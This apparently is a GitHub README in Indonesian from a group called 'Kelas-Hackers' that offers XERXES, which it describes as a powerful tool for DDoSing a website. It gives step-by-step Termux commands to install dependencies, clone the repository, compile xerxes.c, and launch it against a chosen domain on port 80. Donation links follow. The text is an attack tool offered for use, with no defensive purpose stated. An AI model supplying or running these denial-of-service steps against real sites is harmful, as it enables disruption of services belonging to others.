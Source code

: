 
<center><noscript><a href="https://r-protech.blogspot.com"><img display: block; margin-left: auto; margin-right: auto; width="300px" height="300px" alt="Donate using Liberapay" src="https://1.bp.blogspot.com/-n5K_-jCBJwc/X09tKGiwahI/AAAAAAAAAEk/BZ1i4fezdiwZbhN8AZO6VagZKmJeQ7-SgCLcBGAsYHQ/s1233/logo.png"></a></noscript><br/></center>


# Kelas-Hackers


## Jangan lupa Kunjungi : <noscript><a href="https://r-protech.blogspot.com"><img width="100px" alt="Donate using Liberapay" src="https://1.bp.blogspot.com/-m2JyQ7xyKuw/X02-DjWaS4I/AAAAAAAAACU/auN-DJJdNgYpmmCD9IXUa_1wVuM2XZ33gCLcBGAsYHQ/s519/20200901_101424.png"></a></noscript><br/>

XERXES DoS tool Yang Kuat untuk menDDOS suatu Website

```
# Cara Menggunakan :

# $ pkg update && pkg upgrade
# $ pkg install php
# $ pkg install python2
# $ pkg install mechanize
# $ pkg install openssh
# $ pkg install git
# $ git clone https://github.com/Kelas-Hackers/Xerxes
# $ cd Xerxes
# $ gcc xerxes.c -o xerxes
# $ ./xerxes namaweb.com 80
```
```From World```
<noscript><a href="https://paypal.me/indonimous"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript><br/>
```From Indonesian```
<noscript><a href="https://sociabuzz.com/rivalid/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
